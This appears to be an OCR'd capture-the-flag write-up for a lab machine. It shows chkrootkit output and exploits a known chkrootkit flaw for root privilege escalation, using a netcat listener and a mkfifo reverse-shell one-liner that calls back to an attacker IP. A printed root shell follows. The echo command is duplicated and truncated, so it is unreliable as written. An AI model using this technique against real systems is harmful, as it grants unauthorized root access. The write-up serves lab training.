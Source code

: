 ```
Searching for ESRK rootkit default files... nothing found
Searching for rootedoor... nothing found
Searching for ENYELKM rootkit default files... nothing found
Searching for common ssh-scanners default files... nothing found
Searching for suspect PHP files...
/var/tmp/ninevehNotes.php
/var/tmp/a.php

Searching for anomalies in shell history files... Warning: `//root/.bash_history' file size is zero
Checking `asp'... not infected
...
```
A quick Google search will let you know that the report was created by Chkrootkit. An even quicker Google search will get ya this [lovely CVE](https://www.exploit-db.com/exploits/33899/).

Basically, if you put an executable in ``/tmp/update`` with non-root owner, Chkrootkit will run it as root during at the moment of execution.

- set up nc listener to catch a root shell
  - ``nc -nlvp 6969``
- create the update file with a reverse shell
  - ``amrois@nineveh:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.93``
  ``amrois@nineveh:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.93``
- wait for a minute or so

```
root@kingpin:~/Desktop# nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.15.93] from (UNKNOWN) [10.10.10.43] 49754
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
